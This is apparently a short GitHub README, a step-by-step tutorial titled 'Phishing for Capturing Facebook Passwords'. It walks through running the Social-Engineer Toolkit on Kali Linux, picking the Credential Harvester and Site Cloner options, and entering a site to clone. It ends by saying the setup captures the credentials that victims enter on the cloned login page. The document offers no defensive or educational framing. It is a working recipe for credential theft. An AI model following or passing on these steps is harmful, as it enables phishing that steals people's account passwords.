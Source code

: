 # Phishing for Capturing Facebook Passwords

### Tools Required

- Kali Linux
- setoolkit

## Setting Up Phishing on Kali Linux

1. Gain root access:

```bash
sudo su
```

2. Launch the Social-Engineer Toolkit (SET):

```bash
setoolkit
```

3. Select the attack type:

```bash
Social-Engineering Attacks
```

4. Choose the attack vector:

```bash
Web Site Attack Vectors
```
5. Select the attack method:

```bash

Credential Harvester Attack Method
```
6. Choose the Site Cloner method:
```bash
Site Cloner
```
7. Find your machine’s IP address:
```bash
ifconfig
```
8. Enter the target website URL to clone:
```bash
http://www.mirtesnet.com.br
```
## Results

![Alt text] (fishing.jpeg)

Once configured, the tool will capture credentials entered by users attempting to log in via the cloned Facebook page.
